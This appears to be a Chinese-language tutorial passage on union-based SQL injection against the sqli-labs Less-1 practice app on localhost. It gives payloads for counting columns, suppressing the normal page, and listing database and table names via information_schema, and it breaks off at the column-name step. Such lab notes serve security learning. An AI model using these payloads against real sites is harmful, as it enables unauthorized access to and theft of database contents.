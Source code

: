 ### 判断字段数量

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 3 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 4 --+		# 报错，判断为3个字段
```

### 联合查询

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' union select 1,1,1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,1,1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,3 --+

# 抑制正常页面的方法
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,3 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=12345678' union select 1,2,3 -- 
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=2 union select 1,2,3 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 0 union select 1,2,3 -- 
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1<>1 union select 1,2,3 -- 
```

### 查询数据库名

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,database(),version() --+
数据：security


http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,schema_name,3 from information_schema.schemata --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,schema_name,3 from information_schema.schemata limit 1,1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata --+
```

### 查询数据表名

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
数据：emails,referers,uagents,users


# 其他手法
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+
```

### 查询字段名
